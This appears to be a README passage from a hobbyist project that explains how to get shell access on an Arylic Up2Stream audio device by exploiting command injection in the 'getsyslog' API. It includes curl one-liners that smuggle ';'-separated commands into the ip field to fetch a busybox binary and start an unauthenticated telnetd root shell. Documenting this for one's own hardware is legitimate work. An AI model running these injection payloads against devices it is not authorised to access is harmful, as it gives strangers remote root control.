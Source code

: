# Enable telnetd
To enable telnetd on these devices, a security vulnerability had to be exploited. The first version on my devices was 4.2.8020 from 2020/02/20 (20th of Feb 2020) that still had a vulnerability in their code: internally a "sprintf" function was used to prepare a Linux CLI commands. That function was using an IP address as an input, but the input could be extended with ";" and additional commands to download and install a telnetd.

The command that has this vulnerability is **_"getsyslog"_**, see https://developer.arylic.com/httpapi/#get-system-log and https://labs.withsecure.com/advisories/linkplay-firmware-wanlan-remote-code-execution. The command has an option to add an IP address from a slave device, e.g. **_"getsyslog:ip:10.1.1.90"_**, so a CLI command is executed on the device to retrieve the system log from the slave device that includes the IP address. Instead of just having an IP address as a parameter, that CLI command can also include a ";" and a second CLI command. You do not even have to provide an IP address, but can append the ";" and second command directly after the ":ip:". 

The following code snippets are using the IP address 10.1.1.52 for my Arylic Up2Stream Pro v3 device and 10.1.1.22 for a web server running on my local MacBook. 
```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:;wget+-O+/tmp/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;/bin/chmod+777+/tmp/busybox;/tmp/busybox+telnetd+-l/bin/ash";
```
The command above is executing the following commands on the device:
```
wget -O /tmp/busybox -T 5 http://10.1.1.22/a31/busybox -q;
/bin/chmod 777 /tmp/busybox;
/tmp/busybox telnetd -l/bin/ash
```
The tool **_"busybox"_** is like a swiss army knife and combines a lot of CLI commands in a single binary file. That file was stripped down already in my version and does not include a telnetd anymore. Therefore you have to get a full version from somewhere. Fortunately 


```
curl "http://10.1.1.52httpapi.asp?command=getsyslog:ip:10.1.1.22/index.html;wget+-O+/tmp/busybox+-T+5+http://10.1.1.22/a31/busybox+-q;/bin/chmod+777+/tmp/busybox;/tmp/busybox+telnetd+-l/bin/ash+>+/tmp/web/cmd.out+2>+/tmp/web/cmd.err;";
```


